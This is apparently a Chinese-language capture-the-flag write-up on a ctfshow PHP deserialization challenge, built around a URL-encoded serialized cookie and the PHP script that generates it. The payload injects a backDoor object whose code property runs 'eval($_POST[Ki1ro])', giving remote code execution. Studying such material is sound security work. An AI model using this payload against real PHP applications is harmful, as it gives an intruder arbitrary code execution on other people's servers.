

# 知识点
# 思路
虽然我们不能改变类方法，但我们可以改变类的属性<br />我们可以将class修改的值修改为一个backDoor对象，对backDoor类中的code属性进行赋值<br />来达到rce
```plsql
GET username=1&password=2
COOKIE user=O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3Bb%3A0%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A20%3A%22eval%28%24_POST%5BKi1ro%5D%29%3B%22%3B%7D%7D
```
```plsql
<?php
	class ctfShowUser{
		private $username='xxxxxx';
		private $password='xxxxxx';
		private $isVip=false;
		private $class = 'info';

		public function __construct(){
			$this->class=new backDoor();
		}
		public function login($u,$p){
			return $this->username===$u&&$this->password===$p;
		}
		public function __destruct(){
			$this->class->getInfo();
		}

	}

	class info{
		private $user='xxxxxx';
		public function getInfo(){
			return $this->user;
		}
	}

	class backDoor{
		private $code='eval($_POST[Ki1ro]);';
		public function getInfo(){
			eval($this->code);
		}
	}

	echo urlencode(serialize(new ctfShowUser()));

?>
```

